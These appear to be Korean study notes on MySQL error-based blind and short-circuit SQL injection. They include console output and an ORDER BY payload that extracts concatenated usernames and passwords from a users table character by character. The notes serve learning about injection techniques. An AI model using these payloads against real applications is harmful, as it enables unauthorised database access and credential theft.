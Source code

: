 

# Error based Blind SQL Injection
Blind SQLI와 Error based SQLI를 동시에 활용하는 공격 기법
에러 발생 여부만을 필요로하기 때문에 용이하게 사용할 수 있음

```sql
mysql> select if(1=1, 9e307*2,0);
ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 2)'
mysql> select if(1=0, 9e307*2,0);
+--------------------+
| if(1=0, 9e307*2,0) |
+--------------------+
|                  0 |
+--------------------+
1 row in set (0.00 sec)
```


여기서 if의 인자는 앞에서 순서대로 조건문, 참일 때, 거짓일 때 반환할 값을 나타낸다.

### order by
order by절은 관련 없는 하나의 값을 받아도 실행은 되지만 
아래 참일 경우와 같이 row가 2개 이상인 테이블 형태는 오류가 나온다.

```sql
order by if(ord(substr((select group_concat(username,0x3a,password) from users), 37,1))=126, (select 1 union select 2), 0)
```


# Short-circuit evaluation
로직 연산의 원리를 이용해 공격하는 방법

```sql
mysql> SELECT 0 AND SLEEP(1);
+----------------+
| 0 AND SLEEP(1) |
+----------------+
|              0 |
+----------------+
1 row in set (0.00 sec)

mysql> SELECT 1 AND SLEEP(10);
+-----------------+
| 1 AND SLEEP(10) |
+-----------------+
|               0 |
+-----------------+
1 row in set (10.04 sec)

mysql> SELECT 1=1 or 9e307*2;
+----------------+
| 1=1 or 9e307*2 |
+----------------+
|              1 |
+----------------+
1 row in set (0.00 sec)

mysql> SELECT 1=0 or 9e307*2;
ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 2)'
```
